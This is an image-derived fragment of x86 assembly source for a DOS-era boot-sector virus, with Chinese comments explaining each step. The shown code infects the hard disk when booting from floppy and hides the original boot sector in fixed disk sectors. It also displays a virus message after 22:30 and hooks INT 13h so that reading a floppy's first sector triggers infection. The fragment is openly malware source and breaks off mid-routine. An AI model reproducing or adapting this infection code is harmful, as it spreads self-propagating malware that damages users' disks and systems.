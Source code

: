 ```asm
push ds
pop es ;把es复位为0

; 感染硬盘
cmp dl,80h ;是否从硬盘引导？
jz short @@ReadOldHardBoot
push dx ; 从软盘引导，则传染硬盘
mov dl,80h

call @@OptDisk ;调用传染模块
pop dx
; 读取并执行原引导扇区
@@ReadOldFlopyBoot: ;读出原软盘引导程序 
mov ax,0201h
mov cx,79*100h+17 ;传染时将原引导程序保存在0面79道17扇区中
mov dh,00h
call @@CallInt13
jc short @@ReadOldFlopyBoot ;失败，继续读直到成功

; 显示病毒信息
@@ExecOldBoot:
cmp es:[bx.Flags],0aa55h
jnz @@ExecOldBoot
mov ah,02h
int 1ah ;取系统时间
cmp cx,22*100h+30 ;是否大于22：30分
jb @@ExitDisp ;未到，则不显示
lea si,VirusMsg 
@@DispMsg:
mov al,cs:[si]
inc si
mov ah,0eh
int 10h ;显示al中的字符
or al,al
jnz @@DispMsg
xor ax,ax
int 16h ;键盘输入
@@ExitDisp:
mov cx,0001h ;恢复cx初值
push es
push bx
retf ;去执行原引导程序 

@@ReadOldHardBoot:
mov ax,0201h 
mov cx,0002h ;传染时将原硬盘主引导程序保存在0面0道2扇区中
mov dh,00h 
call @@CallInt13 ;读出
jc short @@ReadOldHardBoot ;失败，继续读直到成功
jmp short @@ExecOldBoot ;去执行原引导程序 

; 新定义的 INT 13h 中断服务例程
@@NewInt13: ;新Int 13h（传染块） 
cmp dx,0000h ;是软盘吗？
jnz short @@JmpOldInt13
cmp ah,02h	; 是读扇区操作？
jnz short @@JmpOldInt13
cmp cx,0001h	; 是第一个扇区？
jnz short @@JmpOldInt13
call @@OptDisk ; 若发现读软盘扇区，则感染软盘

; 跳转回 原始 BIOS 的 INT 13h 中断处理程序
@@JmpOldInt13:
```